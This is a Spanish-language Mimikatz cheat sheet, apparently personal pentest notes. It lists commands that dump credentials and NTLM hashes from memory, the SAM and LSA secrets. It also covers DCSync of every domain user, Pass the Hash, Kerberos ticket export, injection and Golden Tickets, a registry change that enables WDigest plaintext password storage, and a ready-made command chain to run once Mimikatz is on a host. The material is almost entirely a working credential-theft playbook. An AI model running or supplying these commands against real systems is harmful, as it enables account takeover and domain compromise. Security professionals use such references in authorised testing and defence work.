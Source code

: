 # Mimikatz

## Comandos básicos
`privilege::debug`
- Eleva privilegios para acceder a procesos protegidos del sistema.

`token::elevate`
- Eleva el token del proceso actual a SYSTEM (si es posible).

`version`
- Muestra la versión de Mimikatz y detalles del sistema operativo.

## Dumpear creds
`sekurlsa::logonpasswords`
- Lista todas las sesiones activas y sus credenciales en memoria (incluye contraseñas y hashes).

`sekurlsa::pth /user:USER /domain:DOMAIN /ntlm:NTHASH /run:COMMAND`
- Inicia un proceso autenticado usando Pass the Hash.

`lsadump::sam`
- Extrae hashes NTLM y LM de cuentas locales desde el archivo SAM.

`lsadump::lsa /patch`
- Extrae secretos LSA del sistema, como contraseñas de servicios y claves de dominio.

`lsadump::dcsync /user:USERNAME`
- Simula una replicación de controlador de dominio (DCSync) para obtener hashes de un usuario específico.

`lsadump::dcsync /all /csv`
- Extrae hashes de todos los usuarios del dominio y los exporta en formato CSV.


## Intentar habilitar WDigest para almacenar credenciales en texto plano
- `reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f`
    - privilege::debug
    - sekurlsa::logonpasswords



## Kerberos

`kerberos::list /export`
- Lista los tickets Kerberos disponibles en memoria y los exporta a archivos .kirbi.

`kerberos::ptt FILE.kirbi`
- Inyecta un ticket Kerberos en la sesión actual.

`kerberos::golden`
- Genera un Golden Ticket para autenticarse como cualquier usuario en el dominio.

### Seguidilla de comandos al conseguir mimikatz recomendada
`.\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "lsadump::cache""sekurlsa::ekeys" "exit"`